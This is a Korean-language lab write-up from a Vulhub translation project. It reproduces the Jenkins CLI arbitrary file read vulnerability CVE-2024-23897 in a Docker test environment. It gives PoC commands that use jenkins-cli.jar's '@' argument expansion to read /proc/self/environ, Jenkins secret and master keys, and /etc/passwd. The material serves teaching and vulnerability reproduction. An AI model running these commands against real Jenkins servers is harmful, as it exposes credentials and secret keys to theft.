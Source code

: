 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**    
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.    
```
docker compose up -d
 ```    
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
``` http://localhost:8080/ ``` or ``` http://본인-ip주소:8080/ ```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)        
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'           
**컨테이너 접속하기**        
 ```
docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```

## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. ```/proc/self/environ``` 파일을 읽는다. ```JENKINS_HOME=/var/jenkins_home```
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>


